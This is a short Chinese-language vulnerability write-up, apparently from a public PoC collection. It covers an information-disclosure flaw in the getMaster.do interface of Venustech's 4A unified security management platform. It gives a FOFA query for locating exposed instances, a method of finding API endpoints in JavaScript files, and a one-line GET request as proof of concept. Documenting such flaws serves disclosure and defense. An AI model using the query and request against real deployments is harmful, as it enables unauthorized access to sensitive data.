 # 启明星辰 4A统一安全管控平台 getMaster.do 信息泄漏漏洞

## 漏洞描述

启明星辰 4A统一安全管控平台 getMaster.do接口 信息泄漏漏洞

## 漏洞影响

```
启明星辰 4A统一安全管控平台
```

## FOFA

```
title="4A统一安全管控平台"
```

## 漏洞复现

登陆页面

![image-20230816115737647](img/image-20230816115737647.png)

可能的黑盒测试思路

在js文件中翻阅api接口

![image-20230816120000230](img/image-20230816120000230.png)

访问后返回功能接口地址

![image-20230816120130735](img/image-20230816120130735.png)

继续访问，信息泄露

![image-20230816120254147](img/image-20230816120254147.png)

验证POC

```
GET /accountApi/getMaster.do
Host:X
```

![image-20230816120254147](img/image-20230816120254147.png)

python批量poc

```
暂无
```



